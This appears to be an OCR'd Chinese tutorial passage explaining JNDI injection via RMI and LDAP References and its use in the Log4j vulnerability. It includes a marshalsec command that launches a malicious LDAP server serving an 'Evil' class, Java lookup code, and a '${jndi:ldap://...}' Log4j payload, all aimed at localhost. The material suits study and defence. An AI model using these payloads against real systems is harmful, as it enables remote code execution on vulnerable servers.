 ## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
其中 http://127.0.0.1:8000/#Evil 的根目录下有一个Evil.class的恶意类。
```
java -cp marshalsec-0.0.3-SNAPSH0T-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Evil 10997
```
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk 8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。

^
## **log4j的JNDI注入**
```
logger.info("${jndi:ldap://127.0.0.1:1099/Evil}");
```
使用${jndi:}后，底层使用了new InitialContext().lookup()。